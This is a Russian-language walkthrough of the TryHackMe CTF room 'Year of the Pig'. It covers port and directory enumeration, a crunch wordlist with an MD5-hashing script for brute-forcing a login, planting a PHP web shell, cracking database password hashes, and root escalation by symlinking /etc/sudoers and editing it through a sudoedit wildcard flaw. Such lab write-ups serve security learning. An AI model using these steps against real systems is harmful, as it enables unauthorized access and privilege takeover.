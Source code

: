 # Year of the Pig

:white_check_mark:  [**Crunch**](#crunch)

:white_check_mark: [**Sqlite3 browsing**](#sqlite3)

:white_check_mark: [**Sudoedit(privesc)**](#sudoedit)

:white_check_mark: [**Sudo version(privesc)**](#sudo_version)

___

## Enumeration
Сканируем ip командой:
```
nmap -sV -sV pig.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница pig.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/1.png)

Переберем директории с помощью gobuster:
```
gobuster dir -u http://pig.thm -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```

```
/index.html           (Status: 200) [Size: 4801]
/login.php            (Status: 200) [Size: 2790]
/admin                (Status: 301) [Size: 302] [--> http://pig.thm/admin/]
/assets               (Status: 301) [Size: 303] [--> http://pig.thm/assets/]
/css                  (Status: 301) [Size: 300] [--> http://pig.thm/css/]   
/js                   (Status: 301) [Size: 299] [--> http://pig.thm/js/]    
/api                  (Status: 301) [Size: 300] [--> http://pig.thm/api/]
```

Перейдем на страницу **pig.thm/login.php**. Перед нами строка авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2-1.png)

Введем случайные данные и перехватим запрос.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/2.png)

Во-первых, мы можем заметить, что наш пароль преобразуется в md5.
Во-вторых, мы не можем сбрутить пароли, т.к. всегда будем получать код ответа 200.

Но отправив запрос, на странице авторизации появляется подсказка.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/3.png)

Паролем является: памятное слово или же слово, которое легко запомнить + 2 цифры + 1 символ.

Покапавшись на странице, можно найти упоминание любимого самолета **marco - Savoia S21**.

<a name="crunch"></a>

## Crunch
Сгенерируем словарь для брута:
```
crunch 9 9 -t savoia%%^ > pass

9 9 - размер пароля от 9 до 9 символов, тоесть просто 9 символов
-t - пароль по образцу
% - любая цифра
^ - любой символ
```

Получив словарь, его нужно преобразовать в md5. Сделаем это при помощи питона.
```
import hashlib

file = open('path_to_file', 'r')
file_read = file.read()


words = list(file_read.split())

for word in words:
        hash = hashlib.md5(word.encode('utf-8')).hexdigest()
        print(hash)
```

```
python brute.py > pass_md5
```

Брутим с логином marco и словарем

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/4.png)

Находим пароль, преобразуем его обратно из md5 и логинимся.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/6.png)

Находим панель для выполнения команд. Перебрав разные варианты команд я решил, что это rabbit hole и решил попробовать эти данные для ssh и они подошли.
```
ssh marco@pig.thm
```

<a name="sqlite3"></a>

## Sqlite3
Подключивсяшь в машине и покопавшись в директории сайта, я нашел базу данных **admin.db**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/7.png)

Увы, взаимодействие с базой доступно только от пользователя www-data, поэтому закинем shell в директорию **/var/www/html**.

Запускаем слушатель и открываем shell: **http://pig.thm/shell.php**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/8.png)

Теперь, когда мы зашли под пользователем www-data, можем открыть базу данных.
```
sqlite3 admin.db
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/9.png)

Получаем пароли от юзеров. Сравнив пароль от marco с тем, который мы сбрутили, можем заметить, что они сходятся, значит пароль от curtis тоже в формате md5. Закинем его в [crackstation](https://crackstation.net/) и получим результат.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/10.png)

<a name="sudoedit"></a>
<a name="sudo_version"></a>

## Privilege escalation
Логинимся под curtis.

Просмотрим права: **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/11.png)

Видим, что это предположительно может быть уязвимость связанная с wildcards. Проверим версию sudo:
```
sudo --version
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/12.png)

Создадим символическую ссылку:
```
ln -s /etc/sudoers /var/www/html/assets/img/config.php

Вместо */* нужно вставить 2 существующие директории
```

У нас есть права для использования sudoedit, поэтому воспользуемся этим.
```
sudoedit /var/www/html/*/*/config.php
```

В конфигурационном файле добавим права рута пользователю curtis.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Pig/13.png)

Выходим из файла: **Esc -> :wq**.

Получаем рута: **sudo su**.

